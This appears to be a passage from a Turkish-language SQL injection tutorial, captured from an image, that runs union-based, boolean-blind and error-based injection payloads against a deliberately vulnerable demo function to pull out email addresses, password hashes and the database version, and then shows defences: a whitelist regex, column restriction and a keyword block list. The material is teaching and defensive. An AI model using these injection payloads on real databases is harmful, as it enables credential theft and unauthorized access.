 ```python  
# ... (setup ve tablolar: kitaplar + GİZLİ kullanicilar)  
  
def saldiri_union():  
    payload = "' UNION SELECT id, email, parola_hash FROM kullanicilar; --"    tehlikeli_sorgu(payload)  # → E-posta ve şifre hash'leri ekrana dökülür!  
```  
  
### 📄 `3_boolean_saldirisi.py` – “Evet/Hayır” Oyunu  
  
```python  
def boolean_sorgu(payload):  
    return len(tehlikeli_sorgu(payload)) > 0  
# Admin şifresinin ilk harfi 'c' mi?  
if boolean_sorgu("George Orwell' AND (SELECT SUBSTR(parola_hash,1,1) FROM kullanicilar WHERE email='admin@site.com')='c'; --"):  
    print("Evet!")  
```  
  
### 📄 `4_error_saldirisi.py` – Hata Mesajlarından Bilgi Çıkarma  
  
```python  
# SQLite versiyonunu öğren  
tehlikeli_sorgu("George Orwell' AND 1=CAST(sqlite_version() AS INT); --")  
# Hata mesajında: "invalid literal for int() with base 10: '3.44.2'"  
```  
  
---  
  
## 🛡️ Bölüm 3: Gelişmiş Savunma Katmanları  
  
### 1. **Giriş Doğrulama (Beyaz Liste)**  
  
```python  
import re  
  
def yazar_gecerli_mi(yazar: str) -> bool:  
    return bool(re.fullmatch(r"[a-zA-Z0-9\s\.\-\u00C0-\u017F]{1,100}", yazar))  
```  
  
### 2. **Çıkış Kısıtlaması**  
  
```python  
# Sadece gerekli sütunları getir  
session.query(KitapDB.baslik, KitapDB.yazar).filter(...)  
```  
  
### 3. **Tehlikeli Kelime Filtresi (Ek Katman)**  
  
```python  
TEHLIKELI = {"UNION", "SELECT", "DROP", "--", ";"}  
def filtrele(inp):  
    return not any(kw in inp.upper() for kw in TEHLIKELI)  
```  
  